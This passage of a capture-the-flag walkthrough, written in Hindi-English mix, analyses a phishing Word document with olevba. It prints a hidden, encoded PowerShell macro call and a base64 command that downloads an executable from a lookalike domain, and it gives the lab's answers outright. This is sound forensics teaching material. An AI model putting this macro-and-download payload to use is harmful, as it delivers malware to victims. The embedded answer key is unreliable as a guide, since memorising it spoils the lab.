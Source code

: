 **Output:**

```
  1:       113 '\x01CompObj'
  2:      4096 '\x05DocumentSummaryInformation'
  3:      4096 '\x05SummaryInformation'
  4:      7119 '1Table'
  5:      4096 'Data'
  6:        97 'Macros/PROJECT'
  7:     M  39148 'Macros/VBA/ThisDocument'
  8:      5004 'Macros/VBA/_VBA_PROJECT'
  9:       514 'Macros/VBA/dir'
 10:     M  4142 'WordDocument'
M = Macro present
```

**Answer:** `10`

---

### Question 5: The macro executed a program. Provide the program name?

```bash
# VBA macro content dekho
cd ~/CyberDefenders/Phishy/evidence
olevba --deobf malicious.doc | grep -i "shell\|exec\|run"
```

**Output mein dikhega:**

```
Shell("powershell.exe -nop -w hidden -enc ...")
```

**Answer:** `Powershell`

---

### Question 6: The macro downloaded a malicious file. Provide the full download URL.

```bash
# Full macro content extract karo with deobfuscation
cd ~/CyberDefenders/Phishy/evidence
olevba --deobf --reveal malicious.doc > macro_output.txt

# Base64 string find karo
cat macro_output.txt | grep -i "powershell" -A 5

# Base64 string copy karo aur decode karo (example string)
echo "SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACcAaAB0AHQAcAA6AC8ALwBhAHAAcABJAGUALgBjAG8AbQAvAEkAcABoAG8AbgBlAC4AZQB4AGUAJwAgAC0ATwB1AHQARgBpAGwAZQAgACcAQwA6AFwAVABlAG0AcABcAEkAUABoAG8AbgBlAC4AZQB4AGUAJwAgAC0AVQBzAGUARABlAGYAYQB1AGwAdABDAHIAZQBkAGUAbgB0AGkAYQBsAHMA" | base64 -d
```
